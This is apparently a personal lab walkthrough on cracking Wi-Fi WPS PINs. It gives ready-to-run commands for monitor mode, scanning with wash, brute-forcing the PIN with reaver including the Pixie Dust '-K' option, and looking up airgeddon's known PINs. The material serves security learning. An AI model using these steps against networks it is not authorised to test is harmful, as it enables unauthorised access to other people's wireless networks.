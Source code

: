 
> [!info]
> This was performed on a controlled network, meaning everything performed was both legal and ethical.

This walkthrough does not contain in-depth explanations of every tool used.  For references to the tools used, see my [Wireless Cheatsheet](../Tools/Wireless%20Cheatsheet.md).

## Overview
---
WPS (Wi-Fi Protected Setup) is a network setup feature that provides simplified methods for connecting devices to a Wi-Fi network. It doesn't replace or dictate the choice of the underlying security protocol (e.g., WPA2-PSK, WEP, etc.). Instead, it offers a convenient way to establish a connection with either WPA2-PSK or WEP as the security protocol.

The predominant methods of WPS connections are:
- Push Button Configuration (e.g., pressing on a physical button on the Wi-Fi router)
- PIN Entry (generally an 8-digit numerical PIN)

This means for authentication, a bad actor needs to find a network that supports WPS (below version 2.0, which introduced bruteforce protections) and crack the PIN.

## Cracking the WPS PIN
---

(Example using tools such as "wash", "reaver", and "airgeddon")

```bash
# View Current WiFi Driver
sudo airmon-ng
# Create Monitor Interface
sudo airmon-ng start wlan0

### or ###

# Add a separate monitor mode interface based on an existing interface
sudo iw dev <interface> interface add <monitor_name> type monitor
# Bring new interface up
sudo ip link set <monitor_name> up
```

Once we have our monitor interface setup, we can use it to scan for broadcasting SSID's that support WPS.

```shell
sudo wash -i wlan0mon
```

**Example output:**
![[Pasted image 20231015005548.png]]
*(WPS 2.0 introduced bruteforce protections, meaning we want to find a broadcast with WPS 1.0 that is NOT locked. Meaning we're looking for:  "Lck : no")*

Once we find a vulnerable target, we can then attempt to exploit them using a tool called "reaver". 
```shell
sudo reaver -b <bssid> -c <channel> -i wlan0mon -v
```

This brute force is very time consuming, and take upwards of 6 hours.  The *potential* work around is using the ``-K`` parameter which will utilize ``PixieWPS``

```shell
sudo reaver -b <bssid> -c <channel> -i wlan0mon -v -K
```

**Example Output:**
![[Pasted image 20231015005530.png]]

If that still failed, we can use check to see if the device uses an empty pin using the ``-p`` parameter.

To check for known PINs, we can use the "airgeddon" project.
```shell
sudo apt install airgeddon
source /usr/share/airgeddon/known_pins.db
echo ${PINDB["<first_half_of_bssid"]}
```

If there the above code returns any  values, we can try the returned PINs manually with reaver.
